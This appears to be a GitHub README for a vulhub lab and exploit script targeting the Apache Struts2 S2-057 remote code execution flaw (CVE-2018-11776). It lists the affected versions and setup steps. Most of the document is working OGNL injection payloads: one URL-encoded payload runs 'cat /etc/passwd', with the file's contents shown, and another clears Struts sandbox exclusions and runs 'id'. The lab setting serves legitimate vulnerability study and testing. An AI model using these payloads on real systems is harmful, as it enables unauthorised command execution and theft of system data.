

# Struts2 S2-057 Remote Code Execution Vulnerablity(CVE-2018-11776)

Affected Version: <= Struts 2.3.34, Struts 2.5.16

Details:

 - https://cwiki.apache.org/confluence/display/WW/S2-057
 - https://lgtm.com/blog/apache_struts_CVE-2018-11776
 - https://xz.aliyun.com/t/2618
 - https://mp.weixin.qq.com/s/iBLrrXHvs7agPywVW7TZrg

## Setup

Start the Struts 2.3.34 environment:

```
docker-compose up -d
```

# S2-057-CVE-2018-11776
A simple exploit for Apache Struts RCE S2-057 (CVE-2018-11776)

***IMPORTANT: Is provided only for educational or information purposes.***


# Usage
`python exploit.py <url> <command> <action> <payload>`

# Example
```Shell
python exploit.py "http://127.0.0.1:8080/showcase" "cat /etc/passwd" "actionChain1.action" 3

=== Tring payload-3 ===
[*] Generated EXP: http://127.0.0.1:8080/showcase/%24%7B%28%23dm%3D@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS%29.%28%23ct%3D%23request%5B%27struts.valueStack%27%5D.context%29.%28%23cr%3D%23ct%5B%27com.opensymphony.xwork2.ActionContext.container%27%5D%29.%28%23ou%3D%23cr.getInstance%28@com.opensymphony.xwork2.ognl.OgnlUtil@class%29%29.%28%23ou.getExcludedPackageNames%28%29.clear%28%29%29.%28%23ou.getExcludedClasses%28%29.clear%28%29%29.%28%23ct.setMemberAccess%28%23dm%29%29.%28%23w%3D%23ct.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22%29.getWriter%28%29%29.%28%23w.print%28@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27cat /etc/passwd%27%29.getInputStream%28%29%29%29%29.%28%23w.close%28%29%29%7D/actionChain1.action
[*] Exploiting...
[+] HTTP Status: 200
[+] Response: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/bin/false
[*] Exploit Finished!
```

# Reference
* https://www.anquanke.com/post/id/157823
* https://mp.weixin.qq.com/s/iBLrrXHvs7agPywVW7TZrg
* https://github.com/vulhub/vulhub


## Exploit

S2-057 requires the following conditions:

  - `alwaysSelectFullNamespace` is true
  - The action element does not have the namespace attribute set, or a wildcard is used

The namespace will be passed by the user from uri and parsed as an OGNL expression, eventually cause remote code execution vulnerablity.

Payload:

```
http://your-ip:8080/struts2-showcase/$%7B233*233%7D/actionChain1.action
```



It can be seen that the result of 233*233 has been returned in the Location header.

Use payload from [S2-057 vulnerability analysis and POC](https://mp.weixin.qq.com/s/iBLrrXHvs7agPywVW7TZrg):

```
${
(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#ct=#request['struts.valueStack'].context).(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ou.getExcludedPackageNames().clear()).(#ou.getExcludedClasses().clear()).(#ct.setMemberAccess(#dm)).(#a=@java.lang.Runtime@getRuntime().exec('id')).(@org.apache.commons.io.IOUtils@toString(#a.getInputStream()))}
```

